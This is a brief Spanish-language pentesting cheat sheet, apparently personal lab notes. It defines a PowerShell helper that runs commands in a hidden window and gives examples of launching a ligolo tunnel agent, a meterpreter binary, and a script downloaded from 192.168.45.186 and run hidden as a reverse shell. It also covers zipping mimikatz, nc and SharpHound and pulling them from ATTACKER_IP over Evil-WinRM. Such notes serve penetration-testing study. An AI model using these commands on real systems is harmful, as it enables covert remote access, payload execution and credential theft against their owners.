 #### funcion para ejecutar procesos en background y no bloquear el CLI

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```

* Ejecucion Ejemplos: 

- ligolo-agent: `bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.186:11601 -ignore-cert"`

- meterpreter: ` bg_exec "C:\Users\eric.wallows\Documents\met.exe`

- powershell: `bg_exec "iwr -uri http://192.168.45.186/shell.ps1 -OutFile C:\temp\rev.ps1; powershell -nop -w hidden -c C:\temp\rev.ps1"`


#### Verificacion:

```powershell
Get-Process | ? { $_.Path -like "*ligolo*" }

# o

tasklist | findstr ligolo

```
#### Seleccion y manipulacion de procesos:

```powershell
Get-Process | Where-Object { $_.Name -like "*<process>*" } | Stop-Process -Force

Get-Process | ? { $_.Path -like "*<process>*" }
```
#### Subir tools

✅ Recomendación práctica.

En Kali:

```bash

zip -r tools.zip mimikatz.exe nc.exe SharpHound.ps1 ...

```
En Evil-WinRM:

```bash
iwr -uri http://ATTACKER_IP:8000/tools.zip -Outfile tools.zip
Expand-Archive tools.zip -DestinationPath .
```
